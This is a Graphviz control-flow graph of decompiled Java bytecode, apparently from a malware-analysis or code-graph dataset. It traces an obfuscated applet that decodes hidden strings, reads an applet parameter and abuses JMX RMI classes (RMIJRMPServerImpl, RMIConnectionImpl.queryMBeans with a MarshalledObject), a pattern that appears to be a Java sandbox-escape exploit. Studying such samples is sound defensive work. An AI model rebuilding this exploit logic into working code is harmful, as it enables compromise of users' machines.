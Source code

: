 digraph "" {
    "r0 := @this: main"
    "push \"u\u007fq|ppidlk(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\""
    "r0 := @this: main"->"push \"u\u007fq|ppidlk(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\"";
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"
    "push \"u\u007fq|ppidlk(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "store.r r1"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"store.r r1";
    "push \"0s4\n/\u00141\u001d86!m\u000b)&4<,\u001a\f\u000b\u0007#=f\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007fwq\r\""
    "store.r r1"->"push \"0s4\n/\u00141\u001d86!m\u000b)&4<,\u001a\f\u000b\u0007#=f\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007fwq\r\"";
    "push \"0s4\n/\u00141\u001d86!m\u000b)&4<,\u001a\f\u000b\u0007#=f\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007fwq\r\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "store.r r2"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"store.r r2";
    "load.r r0"
    "store.r r2"->"load.r r0";
    "push \"\\\"/.*\u001b,;\""
    "load.r r0"->"push \"\\\"/.*\u001b,;\"";
    "push \"\\\"/.*\u001b,;\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"virtualinvoke <main: java.lang.String getParameter(java.lang.String)>";
    "staticput <main: java.lang.String __v>"
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"->"staticput <main: java.lang.String __v>";
    "staticget <main: java.lang.String __v>"
    "staticput <main: java.lang.String __v>"->"staticget <main: java.lang.String __v>";
    "load.r r2"
    "staticget <main: java.lang.String __v>"->"load.r r2";
    "load.r r1"
    "load.r r2"->"load.r r1";
    "staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>"
    "load.r r1"->"staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>";
    "staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>"->"staticput <main: java.lang.String __v>";
    "push 0"
    "staticput <main: java.lang.String __v>"->"push 0";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "pop"
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push \"}v{w\""
    "pop"->"push \"}v{w\"";
    "push \"}v{w\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "staticput <main: java.lang.String __Y>"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"staticput <main: java.lang.String __Y>";
    "staticput <main: java.lang.String __Y>"->"staticget <main: java.lang.String __v>";
    "ifnonnull push null"
    "staticget <main: java.lang.String __v>"->"ifnonnull push null";
    "return"
    "ifnonnull push null"->"return";
    "push null"
    "ifnonnull push null"->"push null";
    "push null"->"store.r r1";
    "staticget <main: java.lang.String filename>"
    "store.r r1"->"staticget <main: java.lang.String filename>";
    "staticget <main: java.lang.String filename>"->"load.r r0";
    "store.r r0"
    "load.r r0"->"store.r r0";
    "goto load.r r1"
    "store.r r0"->"goto load.r r1";
    "goto load.r r1"->"load.r r1";
    "ifnull goto return"
    "load.r r1"->"ifnull goto return";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "ifnull goto return"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r r0";
    "new y6u7"
    "load.r r0"->"new y6u7";
    "dup1.r"
    "new y6u7"->"dup1.r";
    "specialinvoke <y6u7: void <init>()>"
    "dup1.r"->"specialinvoke <y6u7: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <y6u7: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "pop"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"*%,$+.0;3\""
    "load.r r0"->"push \"*%,$+.0;3\"";
    "push \"*%,$+.0;3\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push null";
    "push null"->"load.r r1";
    "load.r r1"->"push null";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
    "push null"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "goto return"->"return";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"store.r r0";
    "load.r r0"->"store.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "staticinvoke <q3p0: java.lang.Object __s(java.lang.String,java.lang.Class)>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"staticinvoke <q3p0: java.lang.Object __s(java.lang.String,java.lang.Class)>";
    "checkcast"
    "staticinvoke <q3p0: java.lang.Object __s(java.lang.String,java.lang.Class)>"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"goto load.r r1";
}
